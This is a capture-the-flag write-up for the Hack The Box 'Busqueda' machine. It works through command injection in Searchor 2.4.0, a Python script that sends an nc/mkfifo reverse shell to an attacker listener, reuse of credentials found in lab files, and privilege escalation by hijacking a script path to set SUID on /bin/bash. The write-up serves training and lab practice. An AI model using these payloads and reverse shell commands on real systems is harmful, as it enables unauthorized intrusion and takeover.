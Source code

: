 +++
title = 'Busqueda'
date = 2024-08-24T16:50:47-04:00
draft = false
tags = ["linux"]
category = ["htb"]
summary = "HTB - Linux - Easy"
+++

# Enum
```bash
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Find a hostname `searcher.htb`, adding to `/etc/hosts`

# 80 - HTTP


If we select apple as the engine and test as the search string, it presents an URL as shown below.


There's also an option for an auto redirect.

`Searchor 2.4.0`





https://github.com/ArjunSharda/Searchor/pull/130



---
# Foothold

*Exploit code*

Looking at one of the exploit links >> https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Due to an eval call we should be able to execute system commands via the web application.

We can download the exploit script, set up a nc listener on our attacker box, then run the exploit to get a reverse shell OR we could look at the exploit code to see how it works and try to exploit the vulnerability manually.

Lets try option 2. 



The exploit builds a reverse shell payload and base64 encodes it, and an evil_cmd variable holding python code to run a python.system command. They then use a curl request to send a POST HTTP request to the server with parameters injecting the evil_cmd into the query variable.

This looks a lot simpler once we capture a request with burp suite.



A captured request to the server. We're going to inject python code into the query variable.

We can check to verify our syntax is correct by running the following python command:
`engine=Apple&query="',__import__('os').system('id'))#`



What this command is doing is a double quote, a single quote, and comma as formatting to break out of the expected input. Importing the python os library, running the os.system method, allowing us to run linux system commands like 'id'.

Looking at the response we see the application is running as user 'svc'.

Next we can create a reverse shell and try to get our foothold. A great tool for reverse shells is https://www.revshells.com/. We're going to want to base64 encode the payload to avoid any issues with formatting.



In this case I'll just be using a simple bash reverse shell, using the built in function to base64 encode the payload.


Don't forget to set up a listener.
nc -lnvp 8443

We can inject our encoded shell code within our python code, make sure to base64 decode it, and execute it with bash


Send the request and check your listener!

Awesome, we have a shell. We'll want to use some magic to get a full TTY to make our lives easier with tab complete.
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
#hit control z to background the shell
stty raw -echo ; fg ; reset
```




We can take this and write a quick python script to get a reverse shell.
```python
import requests

url = 'http://searcher.htb/search'

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://searcher.htb',
    'Connection': 'close',
    'Referer': 'http://searcher.htb/',
    'Upgrade-Insecure-Requests': '1'
}

#command = input("Enter the command to execute: ")
lhost = '10.10.14.2'
lport = '9002'
command = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ' + lhost + ' ' + lport + ' >/tmp/f'

data = {
    'engine': 'Google',
    'query': f"',exec(__import__('os').system('{command}')))#"
}

response = requests.post(url, headers=headers, data=data)

print(response.text)            
```


## Exploits


--- 
# PrivEsc

Now that we're on a stable shell on the box, lets start enumerating for priv escalation. My first step is usually to check to see where we landed and if we can find anything interesting. 


We immediately find a .git folder and a config file containing a username (cody), a potential password (jh1usoih2bkjaspwe92), and a new subdomain.



Checking /etc/passwd we don't see a cody user on the box. Ip information shows we're likely in a docker container running the application.



.git/config file with a cred. We also appear to be in a docker container based on ip info.
`cody:jh1usoih2bkjaspwe92`

We can add the subdomain to our /etc/hosts file and log in to it with the creds we found

This seems to be a rabbit hole as we can login as the user cody but don't find a way to escalate our privileges.

Lets just for some password reuse and check if the svc user uses the same password as cody.



Using the cred we found for cody, as we don't find a cody user on the box in the passwd file, we can try to check sudo privs for the `svc` user using the same password.





We can run `/usr/bin/python3 /opt/scripts/system-checkup.py *`


Checking file permissions for the script, we see it's owned by root and we do not have the ability to modify or view the code.


We'll likely have to look into the function of the script and arguments. Lets try docker-ps argument to list running containers.



We find two running containers, gitea and mysql. Since this command appears to function similar to "docker ps", we can guess the docker-inspect is similar to docker inspect.

We can review the syntax for docker inspect here >> https://docs.docker.com/reference/cli/docker/inspect/

We can use this command to dump the config of the container with the following command:
`sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{.Config}}' gitea`



`administrator:yuiu1hoiu4i5ho1uh`
We can then login try to login as the administrator user of the gitea instance on the web server.


Success! We get access to the gitea server as the administrator user and can review the contents of the scripts folder. 


The contents of system-checkup.py, the command we can execute with sudo privs, shows something interesting.

The full path isn't included when the script references `full-checkup.sh` meaning we can hijack `full-checkup.sh` with our own file in another directory. As we run the script via sudo, we should be able to get a root shell.

Instead of setting up another listener and attempting to get a root shell, lets try modifying a binary we know we can use to escalate privileges with. In this case, lets use /bin/bash to get root by changing the permissions of the binary.


We can change the perms for /bin/bash to SUID by creating a full-checkup.sh file with the following contents and making it executable within the tmp directory:
```
#!/bin/bash
chmod u+s /bin/bash
```

We then want to run the following command to execute our hijacked full-checkup.sh script.

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

Next we use an simple command found on https://gtfobins.github.io/gtfobins/bash/#suid to get a root shell



And we're done, we see our euid=0 making us effectively root! We can go and grab the root flag, submit it, and call it a day.


## Exploits





